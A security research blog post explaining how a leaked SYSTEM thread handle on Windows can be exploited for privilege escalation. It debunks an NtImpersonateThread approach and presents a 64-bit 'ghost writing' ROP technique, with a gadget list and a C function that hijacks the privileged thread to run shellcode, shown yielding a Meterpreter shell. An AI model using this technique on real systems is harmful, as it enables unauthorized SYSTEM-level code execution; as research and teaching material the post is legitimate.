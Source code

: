# Whoops… I dropped my SYSTEM thread HANDLE

I recently came across an interesting finding from [PrivescCheck](https://github.com/itm4n/PrivescCheck), the tool reported an exploitable leaked thread handle. This is when a privileged process leaks a handle (in this case a thread handle) into an unprivileged process, effectively allowing the unprivileged user to gain access to the privileged handle. These must be manually investigated and while mine was unfortunately a false positive, I still wanted to understand how one would exploit this vulnerability.

## Recreating the Vulnerability

You might be wondering how this happens? Well if you look at the [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) documentation, you will see:

> bInheritHandles - If this parameter is TRUE, each inheritable handle in the calling process is inherited by the new process.

So if a SYSTEM service created a process inside the user's desktop with [CreateProcessAsUserA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), and set `bInheritHandles` to TRUE, all inheritable handles within the SYSTEM process are now also available inside the user process.

I recreated this exact setup with <https://github.com/Acebond/LeakyService>. This service will pop-up a cmd.exe inside the user's desktop with a leaked SYSTEM thread handle.

## Exploitation the Wrong Way

The [exploiting-leaked-process-and-thread-handles](https://dronesec.pw/blog/exploiting-leaked-process-and-thread-handles/) blog says that this can be exploited with `NtImpersonateThread`. The idea is that the low privileged user can impersonate the thread token, to gain code execution with a SYSTEM thread token.

![suspicious dog](/assets/img/2024-10-10/suspicious_dog.jpg)

While the blog mentioned above is excellent, I don't believe it and everyone who says this can PoC \|\| GTFO. An example of what they _think_ can be done is here: <https://github.com/Acebond/NtImpersonateThreadMethod>. This method fails, and `NtImpersonateThread` only creates a thread running with an [impersonation level](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels) of `SecurityIdentification`. To work successfully, the attack requires `SeImpersonatePrivilege` privilege, which no low privileged user should ever had, otherwise they would hardly be low privileged. If the low privileged user did have `SeImpersonatePrivilege`, this would work, and the newly created thread would be running with a SYSTEM token with an impersonation level of `SecurityImpersonation`.

## Exploitation the Right Way

I couldn't find any other way to exploit this other than doing ROP with `SetThreadContext`, `GetThreadContext`, `SuspendThread`, and `ResumeThread`.

The Internet seems to call this “ghost writing” since no process level manipulation such as `ReadProcessMemory`, `WriteProcessMemory`, and `CreateRemoteThread` are performed, because, well, we can't - we only have access to the thread, not the process.

I based my PoC heavily on <https://github.com/fern89/ghostwriting-2>. This was about the best PoC for ghost writing I could find, except it was only for 32bit.

The ROP requires 3 gadgets:

1. A `ret` gadget. This pops an address off the stack and jumps to that address. We use it to execute function after setting up the parameters.
2. A `jmp $ gadget`. This jumps backward by 2 bytes and causes `rip` to jump back to itself, creating an infinite loop. We use it to stop the thread from executing past our push gadget and into the unknown.
3. A `push rdx; call rax gadget`. This will push `rdx` onto the stack, a value we control, and then be used to call `rax` which will hold the address of our `jmp $` infinite loop gadget. We use it to push data to the stack, and effectively halt the thread from doing anything meaningful.

The 3rd gadget could be anything like:

```plaintext
push reg1; call reg2
push reg1; jmp reg2
push reg1; push reg2; ret
mov [reg1]; ret
mov [reg1]; call reg2
mov [reg1]; jmp reg2
```

With these gadgets, and a **VERY** good (nobody seems to talk about the shadow space except for <https://retroscience.net/x64-assembly.html>, thank you) understanding of the Windows 64bit calling convention, we can execute a function in the remote thread like so:

```c
DWORD64 CallFuncRemote(HANDLE hThread, Gadgets gadgets, DWORD64 funcAddr, BOOL returnVal, const uint64_t count, const DWORD64 parameters[]) {

    // 1. Check/Fix Stack alignment
    CONTEXT ctx = { .ContextFlags = CONTEXT_FULL };

    SuspendThread(hThread);
    GetThreadContext(hThread, &ctx);

    int isStackAlignmentGood = ((ctx.Rsp + 0x08) == ((ctx.Rsp + 0x08) & ~0x0F));
    int isEvenPUSHParameters = ((count <= 4) || (count % 2 == 0));

    ResumeThread(hThread);

    if (isStackAlignmentGood ^ isEvenPUSHParameters) {
        PushData(hThread, gadgets, 0x00);
    }

    // 2. PUSH function parameters
    for (uint64_t i = count; i > 4; i--) {
        PushData(hThread, gadgets, parameters[i-1]);
    }

    // 3. PUSH shadow space if required
    if (count > 4) {
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
    }

    // 4. PUSH jmps save return pointer
    PushData(hThread, gadgets, gadgets.jmps);

    // 5. PUSH function to call address
    PushData(hThread, gadgets, funcAddr);

    // 6. Execute with ret gadget
    Slay(hThread, gadgets, 
        (count > 0 ? parameters[0] : 0),
        (count > 1 ? parameters[1] : 0),
        (count > 2 ? parameters[2] : 0),
        (count > 3 ? parameters[3] : 0)
    );

    // 7. Ensure the thread _did_ something
    WaitUnblock(hThread);

    // 8. Get return value if required
    return (returnVal ? GetReturnValue(hThread, gadgets) : 0);
}
```
Full code here: <https://github.com/Acebond/GhostWrite64>

We use this to `VirtualAlloc` some memory in the privileged process, write some shellcode to that memory with a named pipe, and then call `CreateThread` to execute the shellcode, and lastly, restore the hijacked thread back to whatever it was doing. The full PoC is on [GitHub](https://github.com/Acebond/GhostWrite64) and has some cool tricks like figuring out if the target thread has been scheduled on the CPU yet, and how to determine if we need to realign the stack.

### PoC \|\| GTFO

In the screenshot below, LeakyService is running, and will spawn a cmd.exe as the lowpriv user. The cmd.exe (PID 9060 in this example) has a leaked thread handle to the LeakyService.exe which is running as SYSTEM.

![System Informer showing the leaked handle](/assets/img/2024-10-10/process.png)

To exploit this, I ran the GhostWrite PoC inside the cmd.exe (you'd otherwise have to `OpenProcess` and `DuplicateHandle`); this causes the leaked handle to leak again from cmd.exe into GhostWrite.exe, because cmd creates process with inherit handles set to TRUE.

![PoC getting a Meterpreter shell](/assets/img/2024-10-10/poc.png)

GhostWrite then hijacks the SYSTEM thread using the leaked handle and the ROP method described above, creates its own thread inside the SYSTEM process to run a Meterpreter shellcode, and seamlessly restores the original thread execution. Easy-peasy.